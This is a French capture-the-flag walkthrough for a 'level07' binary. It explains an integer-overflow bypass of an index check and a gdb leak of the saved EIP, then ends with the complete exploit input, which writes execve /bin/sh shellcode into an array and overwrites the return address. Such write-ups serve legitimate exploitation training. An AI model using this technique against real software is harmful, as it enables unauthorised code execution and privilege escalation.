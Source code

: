 Ce binaire etait plus difficile que les autres a exploiter.

Son fonctionnement est plutot simple : 
Il boucle a l'infini, en demandant une entree a l'utilisateur (a la maniere d'un shell). Il y a 3 commandes possibles : store, read et quit. 

store : Demande un index puis une valeur, puis stock la valeur a l'index indique.
read  : Demande un index puis lit la valeur a l'index indique.
quit  : ... :)

En desassemblant le binaire pour en savoir un peu plus, on peut noter plusieurs choses : 

Un test est effectue sur l'index que nous indiquons :` if (index % 3 == 0)` ...
Si ce test se revele etre vrai, alors un message d'erreur s'affiche nous indiquant que nous ne pouvons
pas stocker de nombre a cet index. Cela sera tres important pour la suite.

Nous voyons egalement que aucune verification n'est mise en place pour verifier la valeur que nous 
envoyons a store ou a read.
Ainsi, nous pouvons lire a des indexs ayant pour valeur une negative ou alors une valeur > 100 (le tableau de data faisant 100*4 bytes). ceci est egalement tres important pour la suite. 

Nous savons donc que nous pouvons ecrire ou nous voulons en memoire. Enfin presque, car le index % 3 nous complique la tache. Une maniere de le contourner est la suivant :

Lui passer une valeur >= au INT_MAX afin de recuperer uniquement la difference entre INT_MAX + x
Nous savons qu'en memoire notre valeur est multiplie par 4 car il s'agit d'un tableau de int (4 bytes).
Voici par exemple commnent ecrire a l'index 0 : 
`4294967295 / 4 = 1073741823 + 1 = 1073741824`. Avec cette valeur, nous pouvons ecrire a l'index 0 (data[0])
car `1073741824 % 3 == 1`. Le test est donc respecte. Nous allons utiliser cette methode pour ecrire 
aux endroits "interdits" en memoire. 

J'ai donc decide d'ecraser la sauvegarde EIP du main. Pour cela, il suffit de la leaker :

	$ gdb level07
	$ b*main+455
	$ r
	$ store
	$ i f

	eip = 0x80488ea in main; saved eip 0xf7e45513


Maintenant, nous allons dumper notre stack avec read_number jusqu'a obtention de la valeur "0x80488ea"
qui correspond a EIP du main. 

En faisant plusieurs essai avec des valeurs > 100, on se rend compte que la sauvegarde d'EIP se trouve
a l'index 114 :

	$ ./level07
	$ read
	$ 114
	
	Number at data[114] is 4158936339     <--- 0xf7e45513

Par chance, l'index 114 etait rapide a trouver. Cependant j'ai quand meme creer un script d'automatisation (voir Ressources/find_eip.sh)

Maintenant que nous avons tous ces elements, l'idee est de stocker l'adresse de notre shellcode a l'adresse
de data[0] puis d'ecraser sEIP avec l'adresse 0 de notre tableau data.
Le probleme, c'est que lors de l'execution du binaire, l'environement semble etre "efface". Le trick 
va donc etre de stocker notre shellcode (4 bytes par 4 bytes) dans les adresse de data[0] a data[5], puis, de sauter dessus en ecran sEIP par l'adresse de data[0], comme indique ci-dessus. 
Je rappel que nous ne pouvons pas ecrire a tous les index que nous souhaitons, nous allons donc parfois
devoir jouer avec l'overflow, comme indique au debut du walkthrough.

J'ai choisi le shellcode suivant (23 bytes) : http://shell-storm.org/shellcode/files/shellcode-827.php

Et voici notre exploit : 

		store
		1750122545        # \x31\xc0\x50\x68
		1073741824        # data[0] (en utilisant la methode de l'overflow)
		store
		1752379183	  # \x2f\x2f\x73\x68
		1		  # data[1]
		store
		1768042344	  # \x68\x2f\x62\x69
		2		  # data[2]
		store
		1357089134        # \x6e\x89\xe3\x50
		1073741827	  # data[3] (en utilisant la methode de l'overflow)
		store
		2967570771	  # \x53\x89\xe1\xb0
		4		  # data[4]
		store
		8441099		  # \x0b\xcd\x80	
		5
		store
		4294956388				data[0] adresse
		1073741938				data[114] (save eip)
		quit
